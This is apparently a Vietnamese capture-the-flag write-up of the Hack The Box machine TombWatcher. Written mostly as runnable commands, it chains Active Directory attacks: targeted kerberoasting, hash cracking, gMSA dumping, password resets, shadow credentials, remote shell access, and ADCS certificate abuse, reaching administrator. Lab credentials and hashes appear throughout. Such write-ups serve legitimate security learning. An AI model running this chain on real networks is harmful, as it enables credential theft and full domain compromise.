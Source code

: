<p align="center"><img src="image/image.png" /></p>

# Tomwatcher Hackthebox
## nmap, smb, ldap, bloodyAD
### Nmap
```
nmap -sCV -vv -oA nmap/output 10.10.11.72
```
[🔍 Xem kết quả quét Nmap](./nmap/output.nmap)
### Thêm domain file /etc/hosts 
```
echo "10.10.11.72 DC01.tombwatcher.htb DC01 tombwatcher.htb" |sudo tee -a /etc/hosts
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
10.10.11.72 DC01.tombwatcher.htb DC01 tombwatcher.htb
</pre>

### Kiểm tra ldap
```
nxc ldap DC01.tombwatcher.htb -u henry -p H3nry_987TGV! --kerberoasting -  
```          
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.10.11.72     389    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
LDAP        10.10.11.72     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.10.11.72     389    DC01             [*] Total of records returned 0
</pre>
### Chạy rusthound-ce thu thập data
```
rusthound-ce -d tombwatcher.htb -u henry -p H3nry_987TGV!
```

### Upload lên bloodhound
Register a Service Principal Name for Kerberos Connections
để leo lên user Alfred
<p align="center"><img src="image/image1.png" /></p>
User Jonh có quyền GenericAll Active Directory Certificate Services
<p align="center"><img src="image/image2.png" /></p>
Hướng leo lên Jonh
<p align="center"><img src="image/image3.png" /></p>

### Chạy lệnh để lấy hash SPN LDAP
```
bloodyAD -u henry -p 'H3nry_987TGV!' --host 10.10.11.72 set object ALFRED servicePrincipalName -v 'http/pwned'
```
```
nxc ldap dc01.tombwatcher.htb -u henry -p 'H3nry_987TGV!' --kerberoasting -
```
[🔍 Mã hash](./cred/henkr5.txt)
- Chạy cmd sau để xóa SPN 
```
bloodyAD -u henry -p 'H3nry_987TGV!' --host 10.10.11.72 set object ALFRED servicePrincipalName
```
### Chạy hashcat crash krb5
```
hashcat -m 13100 cred/henkr5.txt /usr/share/wordlists/rockyou.txt 
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
...1b6eb6e7dec2546857bc896df9346787ed89812fb81165c2:basketball
</pre>
### Thêm Alfred vào group `infrastructure`
```
bloodyAD --host 10.10.11.72 -u alfred -p 'basketball' add groupMember infrastructure Alfred
```
Kiểm tra rò pass user ansible_dev
```
nxc ldap dc01.tombwatcher.htb -u alfred -p 'basketball' --gmsa
```
### Change password user Sam bằng mã gmsa thu được
```
bloodyAD --host 10.10.11.72 -u ansible_dev$ -p ':bf8b11e301f7ba3fdc616e5d4fa01c30' set password sam "PleaseSubscribe"
```
### Thay quyền user john bằng sam
```
bloodyAD --host 10.10.11.72 -u 'sam' -p 'PleaseSubscribe' set owner john sam
```
### Lấy shadown cred john
```
certipy-ad shadow auto -u sam@tombwatcher.htb -p 'PleaseSubscribe' -account john -dc-ip 10.10.11.72
```
### Remote vao server
```
evil-winrm -i 10.10.11.72 -u john -H ad9324754583e3e42b55aad4d3b8d2bf 
```
### Xem cac cert dang tham gia
<p align="center"><img src="image/image4.png" /></p>
Tìm kiếm xem cert nào SID đang để dang số (tức đã vô hiệu hóa từ lâu) bẳng certify
```
└─$ certipy-ad find -u john -hashes :ad9324754583e3e42b55aad4d3b8d2bf -target 10.10.11.72
```

### Tìm user SID lạ trên john
```
*Evil-WinRM* PS C:\Users\john\Desktop> Get-AdObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects
```
Thấy có user cert-admin hồi sinh nó dậy
```
*Evil-WinRM* PS C:\Users\john\Desktop> Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```
### Lấy TGT cert_admin
```
certipy-ad shadow auto -u  john@tombwatcher.htb -hashes :ad9324754583e3e42b55aad4d3b8d2bf -account cert_admin -dc-ip 10.10.11.72
```
### Kiểm tra có lỗ hổng nào không 
```
certipy-ad find -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -vulnerable
```
### Lay cert cua administrator
```
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -ca tombwatcher-CA-1 -template WebServer -application-policies 'Certificate Request Agent'
```
```
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.10.11.72 -ca tombwatcher-CA-1 -template User -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\administrator'
```
### Lay hash
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72
```
